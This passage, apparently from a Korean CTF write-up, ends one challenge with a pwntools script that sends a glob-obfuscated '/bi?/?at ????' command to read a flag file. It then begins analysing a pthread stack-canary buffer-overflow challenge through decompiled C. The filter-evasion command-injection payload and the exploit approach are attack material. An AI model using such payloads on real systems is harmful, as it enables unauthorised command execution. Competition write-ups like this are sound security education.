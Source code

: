 - 즉, /bi?/?at ???? (/bin/cat flag)과 같은 공격이 가능해지므로 아래의 공격코드를 구성해서 실행시키면 플래그를 획득할 수 있다.

  ```python
  from pwn import *
  
  con = remote("110.10.147.106", 15959)
  
  con.sendlineafter("INPUT : ", "9")
  con.sendline("\"\n/bi?/?at ????")
  
  con.interactive()
  ```

  

## 3. aeiou

- pthread, tcb, stack canary, buffer overflow

- 문제 바이너리와 libc가 주어졌다. 바이너리는 아래와 같은 mitigation이 걸려있는 것을 볼 수 있다.

  ![1548749970733](C:\Users\newez\AppData\Roaming\Typora\typora-user-images\1548749970733.png)

  

  이제 aeiou 바이너리를 디컴파일해서 분석을 하다보면 아래와 같은 bof가 발생하는 함수를 만나게 된다.

  ```c
  int teach()
  {
    int result; // eax
    pthread_t newthread; // [rsp+0h] [rbp-10h]
    unsigned __int64 v2; // [rsp+8h] [rbp-8h]
  
    v2 = __readfsqword(0x28u);
    pthread_create(&newthread, 0LL, (void *(*)(void *))start_routine, 0LL);
    result = pthread_join(newthread, 0LL);
    if ( result )
    {
      puts("oooooh :(");
      result = 1;
    }
    return result;
  }
  
  void *__fastcall start_routine(void *a1)
  {
    unsigned __int64 v2; // [rsp+8h] [rbp-1018h]
    char s[4104]; // [rsp+10h] [rbp-1010h]
    unsigned __int64 v4; // [rsp+1018h] [rbp-8h]
  
    v4 = __readfsqword(0x28u);
    memset(s, 0, 0x1000uLL);
    puts("Hello!");
    puts("Let me know the number!");
    v2 = readstr();
    if ( v2 <= 0x10000 )
    {
      sub_401170(0, s, v2);
      puts("Thank You :)");
    }
    else
    {
      puts("Too much :(");
    }
    return 0LL;
  }
  ```